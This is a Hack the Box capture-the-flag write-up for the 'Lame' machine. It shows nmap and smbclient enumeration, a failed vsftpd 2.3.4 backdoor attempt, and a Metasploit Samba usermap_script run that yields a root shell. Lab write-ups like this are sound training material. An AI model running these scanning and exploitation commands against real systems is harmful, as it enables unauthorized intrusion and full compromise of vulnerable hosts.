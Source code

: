 # Machine: Lame

Date: 2024-06-16.

## Overview
This write-up details my approach to compromising the "Lame" machine on Hack the Box. The Lame machine is a Unix-based system with several open services. Below are the steps I followed to successfully exploit the machine and obtain the necessary flags.

## Enumeration

Target Information:

* OS: Unix
* Ports: 21 (FTP), 22 (SSH), 139 (NetBIOS-SSN), 445 (Microsoft-DS), 3632 (DistCC)

### Nmap Scan Results:

Initial scan to discover open ports:

```bash
nmap -sS -p- <IP> -v -oN full_tcp_scan.txt
```

The scan revealed the following open ports:

```bash
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd
```

Detailed scan on the discovered ports:

```bash
nmap -sV -sC -p21,22,139,445,3632 <IP> -v -oN v_ports.txt -oX v_ports.xml
```

The detailed scan revealed the following:

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### FTP Service

The FTP server allows anonymous login but contains no files of interest. The version identified is vsftpd 2.3.4, which has a known vulnerability:

```
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)
```

### SSH Service

The SSH service is running OpenSSH 4.7p1 Debian 8ubuntu1.

### Samba Service

The Samba service version is Samba 3.0.20-Debian, which has multiple vulnerabilities. Running a script scan provided additional details:

```
smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
```

I enumerated the shares:

```bash
smbclient -L=10.10.10.3
```

Anonymous login was successful, and the shares available were:

```
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
tmp             Disk      oh noes!
opt             Disk      
IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
```

Inside the tmp directory, there were no files of interest.

### DistCC Service

The distccd service on port 3632 is used for distributed compilation, allowing tasks to be offloaded to other computers. A known vulnerability is CVE-2004-2687.
I tested it with nmap: `nmap -p3632 10.10.10.2 --script=distcc-cve2004-2687 --script-args="distcc-exec.cmd='id"` but I got nothing.

***

## Exploitation

### FTP Service

I tried the vsftpd 2.3.4 - Backdoor Command Execution exploit:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <IP>
set LHOST <IP>
exploit
```

However, this did not result in a session.

### Samba Service

I then tried the Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution exploit:

```bash
use exploit/multi/samba/usermap_script
set RHOST <IP>
set LHOST <IP>
exploit
```

This successfully provided a shell:

```bash
root@lame:/# id
uid=0(root) gid=0(root)
```

## Conclusion

Compromising the Lame machine involved identifying vulnerable services and exploiting known vulnerabilities in Samba. This exercise reinforced key concepts in network service enumeration and exploitation of vulnerable software.
